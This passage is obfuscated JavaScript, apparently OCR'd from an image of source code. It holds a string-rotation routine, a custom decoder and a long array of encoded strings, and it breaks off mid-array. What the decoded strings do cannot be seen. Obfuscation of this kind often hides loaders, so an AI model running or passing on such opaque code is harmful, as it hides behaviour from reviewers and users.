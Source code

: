 bF4XAJ(gzMXT2x,nvvtXxm,m0ViAs8){for(m0ViAs8=0x0;m0ViAs8<nvvtXxm;m0ViAs8++)gzMXT2x.push(gzMXT2x.shift());return gzMXT2x}const THCkQ8=[0x0,0x1,0x8,0xff,\"length\",\"undefined\",0x14,0x3f,0x6,\"fromCodePoint\",0x7,0xc,\"push\",0x13,0x7e,\"b\",0xc6,0x25,0x8d,0x91,0x5b,0x57,0x1fff,0x58,0xd,0xe,0x4,0xb5,\"a\",0x9,0x76,0xe4,\"f\",\"d\",0x7f,0x80,\"w\",0xdf,0x3,0xc1,0xde,0xe9,0x5c,!0x1,0x88,0x2,0xb8,0x71,0xe3,0x99,0xc8,0x54,0x5,0x36,0x28,0xef,0xf1,0xa2,0x78,0x9b,\"g\",0xfa,0x102,0x103,\"c\",\"h\",0x11d,0x22,\"i\",\"e\",0xa9,0xa8,0xbb,0x21,null,0xab,0x27,0x7b,0x3e8,0x144,0x147,0x149,0x14f,0xdb,0xe7,0xf4,void 0x0,0xb4,0xcc,0x92,0x11,0x7c,0x2c,\"id\",0xe6,0xb6,0x82,0xa0,0x6e,0x9a,0xba,0x195,0x196,0x19c,0x84,0x67,0xc5,0xeb,0xbe,0x93,0x8f,0x32,0x1a4,0x1a5,0xb7,0x87,0xf5,0x86,\"q\",0xbc,0x6d,0x1b8,0xc4,0xcb,0x60,0x50,0x94,0x9c,0x1da,0x68,0xc3,!0x0,0xbd,0x37,0x59,0x63,0xf3,0xee,0xca,0x51,0xdd,0xa4,0xe8,\"t\",0x150,0x202,0xea];function tC2jbfW(gzMXT2x,nvvtXxm=THCkQ8[0x1]){Object.defineProperty(gzMXT2x,THCkQ8[0x4],{value:nvvtXxm,configurable:THCkQ8[0x2b]});return gzMXT2x}function rxtViPx(gzMXT2x){var nvvtXxm=\"{DObGIBRr`08^EQ:zg]1;N%3Tp6}iK.cF[uM4,*>v)=9#5mVYXtH7LwlP$hC/Wy+\\\"AZUS&@n?f~q2s(J!ax|<odjk_e\",m0ViAs8,nTnwFsC,HcjzCGt,uZ1uQq,LZV2C8V,RPo7GVw,kGdRAH;eeJxuz(m0ViAs8=\"\"+(gzMXT2x||\"\"),nTnwFsC=m0ViAs8.length,HcjzCGt=[],uZ1uQq=THCkQ8[0x0],LZV2C8V=THCkQ8[0x0],RPo7GVw=-THCkQ8[0x1]);for(kGdRAH=THCkQ8[0x0];kGdRAH<nTnwFsC;kGdRAH++){var BNbvib=nvvtXxm.indexOf(m0ViAs8[kGdRAH]);if(BNbvib===-THCkQ8[0x1])continue;if(RPo7GVw<THCkQ8[0x0]){RPo7GVw=BNbvib}else{eeJxuz(RPo7GVw+=BNbvib*THCkQ8[0x14],uZ1uQq|=RPo7GVw<<LZV2C8V,LZV2C8V+=(RPo7GVw&THCkQ8[0x16])>THCkQ8[0x17]?THCkQ8[0x18]:THCkQ8[0x19]);do{eeJxuz(HcjzCGt.push(uZ1uQq&THCkQ8[0x3]),uZ1uQq>>=THCkQ8[0x2],LZV2C8V-=THCkQ8[0x2])}while(LZV2C8V>THCkQ8[0xa]);RPo7GVw=-THCkQ8[0x1]}}if(RPo7GVw>-THCkQ8[0x1]){HcjzCGt.push((uZ1uQq|RPo7GVw<<LZV2C8V)&THCkQ8[0x3])}return kUXBzvs(HcjzCGt)}function v9uCkQv(m0ViAs8){if(typeof gzMXT2x[m0ViAs8]===THCkQ8[0x5]){return gzMXT2x[m0ViAs8]=rxtViPx(nvvtXxm[m0ViAs8])}return gzMXT2x[m0ViAs8]}eeJxuz(gzMXT2x={},nvvtXxm=bF4XAJ([\"(A+6P!%@NoWo6f\",\"cE&*j@#=U\",\"%Hr+)B,\",\"UY`*)^U%(gvX_R\",\"c(358hyL\",\"DN[([\",\"wN5.rEIiFMO9ZRBT3,)8jF\",\"3B&7n%.?p`n6D\",\"d8A)VBe%KvnkD\",\"C?>3w?o85VW2N\",\"wN5.rEIiFMO9ZRBT3,)88F\",\";djJ]B=5rTY/DLST+@mD\",\"k>.G{lVE#C60YCK4&`g(@y1&~yK?,EC)2QCs4qf$/8rhAGkM3A6qYP=.b\",\",3;~T7c&@h%uE?tiNSR71\",\"4w3G\\\"/Lq|$x~0OS*LvcG\",\"M3*l*oa$3\\\"xs86|}zwE0N\",\"eryi3CNRL1SFoYY65^kw]*$3H\\\"n:P:K3#~3`zn{\",\"RGF`i!;rVP&sH:#>6Arq~Y{.yL.}rn0p!y?`iV;~U1Vy_YNi9gjGz4{\",\"n`bKjCOr~yFJya\\\"4lyqKMC`ECrQ,6W&1JBb?N\",\"|Bz[/m#vg$nM&/..%wnB\",\"OwK7\\\"mEE|\\\"(%)?4c?SR77hNE.Z/]fY64*/%7E4(T=g\",\"{M>i*P0m!+|t?b\",\"pwXH%tHMEQQhS:{g_>ZHUmZTF:NH9*n196Bc+l4.PA>CD\",\"2y3XZL3KLwy8D\",\"pmWibmgKn;&Z3O&*w3Gt[ST.Sw0h}tCKp9GI9MUDa][}^b{98$D.l@qD\",\"w$HKULNMMwzHL?3)sppw9X<uqP0SOp:>z6&~_2ZTd19gFbs}gnJf&&{T~At\",\"KA+`)V:&4\\\"`bE<+,eiFfd2x7$Qvfnh[4BXxrna#O\",\"g+PXT|F.g]nX}6H}NA%G{d^7R\",\"imW~X<+Db\",\"C;)B.WBmZ$[N}Q#*XA*c?u,+g`mymW0\",\"gmUI!l^TH\\\"H21nX}0SBlGJr4H^^q=Q>,n8p(cCED,\\\"(+btB\",\"<@r}@&y.n;H!PT)*H5Aw6C6O9rzSjb{3pSycL+YdYZ\\\"DiCq*T;b\",\"UgliGY&RH$zA:O56\",\"t;Ql{/.4fgj^`Yb]ocoR]41V{]/RZ&NiyAeI\",\"9nmf5sk!uwLN;b^p\",\"n5T`J${]8ygJC@X}z]wGN2(mY^$sH@Ip1$+G]7oEiNM\",\"@HBlRJ@d?;P@+hG*\",\"9g3[H>xh|1]YAT{3|@;s5P!usPJpjQ}M{KS~5!B._;|s3|F.Yw;lQ4vO\",\"#A4c;2.TJ];&W&}M&w5Gb~cMTgq![?)>K3n2wm479AYcjQd}${\",\"@wj7uf{]y:CQ`zZ3$ybtT7l3c:wGLGPKfb7K5,yh/Q,c+xr\",\"H;|LB~O]Z/SG?n7v&;y2I?1EmL]x&?@,l$xrP<JD~CKJsG\",\"xu?XHX4h}AOq96V>p9_w*x|E^ym21:xu/CbFX>K)GwO`D\",\"E$WR1(U+tw3J\\\"C}K,:=}AJ8pI\",\"wbGI|(=OcZL!}|?]@yB7i\",\"bXvw6*K1!:fD%I/)],pqg$GTA`Sf{\",\"Aip}rYZ]};y]c*2>=go6Xqtm1`Qq{\",\"1mbF>W%mD^oscni.1:bI;(W)q;~8$Th4KmLc3oZ]=y3JE,Y}8KpqmSX1@EX&D\",\"sio~b?|Ec:0`!nW4>AZsIYy.sy*Qd&Z4ac*2;tKV(LaD,zE\",\"Sw1K.wgR{/Izlhv1QFGKBL?.iC~8>hfc{wFXGL=]#C7Rtp+.@fzwx|{\",\"b^g}Gm^]5Pl@^4zv%K~H/@RDI\",\"<pR`,MnHiABWJ*[cQ,Nl9WT~V+)fvC4c2ycXz\",\"Q/VX<|r.7\\\"5ycO\",\"i,Gs|*)1QNe6oYD4=S_w.f=hOwyP%IXv*w*i!yB=2P3J<|oi>^xF4W{\",\"d@,73tSB(C)lU@0;Lbgq]tXRSw8.rb!6vAo~:tXVu$@i4VJ6HBO\",\"u:NcQ&CDa]p?<TLiwA]Hzy$3]$YXD\",\";]Yf%2oRqP=YlQ8>*w|sP<`R8C`Y^|v1V^cf;|Ydpgvi96/MZyvB2lsD.Cs~{\",\"?,).E|M1#N7!yX26cS;~3$EVO``H:t^;lnQcf&cKX/<s[ph)S=LR5,@.R\",\"?bKls4Ipu^>YZELM6w;chu[$iQ9!W&LMbZ_FIui^B\\\"~8~&Ni4/c2on>V);a@{\",\"3/7~|Cz7\\\"$/P_TCK~y!`*XQrNwWf1tOTJ5JBX+2^_h%J`,$i\",\"+S;s)ScqO/tQ2n.TIM(n`ae!U`=Q|6U4`+Ar*f_oCg%bJ6^1Qm>f[C!^2g\",\"fQ\\\"w`/f$=A7+Mxf1)y~K.w9Rjh=lsT?p2Hrwn4v7h8Sf#G,c(fr.eoVV=g\",\"XHgF`2@74wh@b}o)>HXr=wyBhAl+mXa>3/8F8aOdCAZZGbxvT~w7AY_R:N\",\"MS4lW?o$11,Nr:z;;6lfLsF^z/XyuXHufSI2V@h]Z1P\",\"^meFy>oRF`?D!b.4pwF`iC5E7`FT+@/=!BisMqk7};>\",\"RMSK{>3az/xpU*E\",\"8,Ncznb)A:PXT}D,4~%2+~U+F]]q8b*TP{\",\"@B$wXSnEp;\",\"dHYfO~B]WQwiUh96Kv]F8~*]yr\",\"p~sR,WG],hUpR6F4HH>f!y..[+_r^C,cPBHLth\\\"mB\",\"vK6H0ytdD$],;:4c)v*R=X.O#g7&}QQ\",\"gm@78yWEz]4N+@R,\",\",gHL{uP!}AiR>xMp&g2L%\",\")y@`_${\",\"_QW~),hhoEhsxQ?,k=zBZac)&w%c=E\\\"4nwb\",\">AGc\\\"ltm1$!Ua&ju4/{qPJhTa$IO!b!u%F<sE&{\",\"X62~yh3)F]Ai]aM.&,n`|[|&=;VcL/GTl5+G:l@7Z1vJ.xKM$SStQyevR\",\"8SF}`J`1V+)!ga[3_HXB*SaMc^52%Qm>\",\"wQ=qy>Dayr/]$4?]kfc7w,zm6;`bD\",\"(,Pw(Yx!1$?f2})*0$qLa7{\",\"Cvcf;vMKs]5T{n}giwU6v!y.R000FVR1J@iRr/}KB\\\"V2\\\"CbpT9%GA4{\",\"/;=H$Hf)H^t&A?6iUHrB2&2]s8$M~&M]\",\"N;H?Rde^VZVZ]I6M89%7xt$)w1~X36a>a,+X~&|MY$1c$Y\\\"TJ{\",\"~yIlmh{\",\"E^n23to3.]CGjOcT<=?`(l#mt1AFb6*]7A:wKVXM/L47fYAg3$Oq?J{\",\"#$ilgy]45CA+epz}Bn#0Kvxu>h$\",\"iK4Ko5qJ[`pEM*]uP`>2\\\"JKV+P=Ry&S.eb3fZL@]5CZPTVM][/PXBL{\",\"cv&68*qD\",\"qPq6P/TdeQdaz|UpT/m7^t,qQ]\",\"bKYfB~@]+r<Lc6cgS{\",\"g,:`1C$KY+k~<CygS=.2zn1V*hUiF|{3WbJiBY0TdElRC*_iAbg}9@WK(8\",\":w9F.wW+CCt]:tPMjiOHiMcKtw2:aT4.\",\"iKPfq*y]g+_$C@m6~S^05!JHWy};o4k%$ArB\",\"t$[B7HT72PVQep9p*YNcRdLEF]\\\"7gYfp9AE2tP>DR\",\"v,UIHq;7vhn8Ezg}lHZK/<{\",\"]^n7ymADb\",\"NmL7Tvk~w\\\",&ea*pWYW0UL{\",\"/b/~RagViQ9YHhD3\",\"E${(R/@TiQYGG}|vO]BcBJCE+rcAATi)0m:(:~)RQ]\",\"+iwR9,K1fhL&